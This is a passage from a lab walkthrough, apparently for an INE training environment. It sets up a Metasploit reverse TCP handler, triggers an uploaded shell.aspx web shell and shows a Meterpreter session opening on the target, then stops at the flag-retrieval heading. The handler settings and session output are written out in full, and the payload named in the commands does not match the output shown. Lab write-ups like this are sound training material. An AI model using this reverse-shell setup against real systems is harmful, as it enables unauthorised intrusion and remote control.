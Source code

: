 The file is now accessible via the web server at `http://target.ine.local/shell.aspx`.

### Step 3: Reverse Shell Handler Setup

Before triggering our payload, we need to set up a handler to catch the incoming connection:

```bash
use multi/handler
set payload windows/shell/reverse_tcp
set LHOST 10.10.49.6
set LPORT 1234
run
```

**Handler Setup Results:**
```
msf6 exploit(multi/handler) > show options

Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

msf6 exploit(multi/handler) > set lhost 10.10.49.6
lhost => 10.10.49.6
msf6 exploit(multi/handler) > set lport 1234
lport => 1234
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.49.6:1234
```

### Step 4: Payload Execution

Navigate to our uploaded shell in a web browser:
```
http://target.ine.local/shell.aspx
```

**Reverse Shell Connection Results:**
```
[*] Started reverse TCP handler on 10.10.49.6:1234 
[*] Sending stage (201798 bytes) to 10.2.27.100
[*] Meterpreter session 6 opened (10.10.49.6:1234 -> 10.2.27.100:49576) at 2025-09-28 20:02:25 +0530

meterpreter > 
```

Success! Our reverse shell connects, providing us with command execution on the target system.

### Step 5: System Access and Flag Retrieval
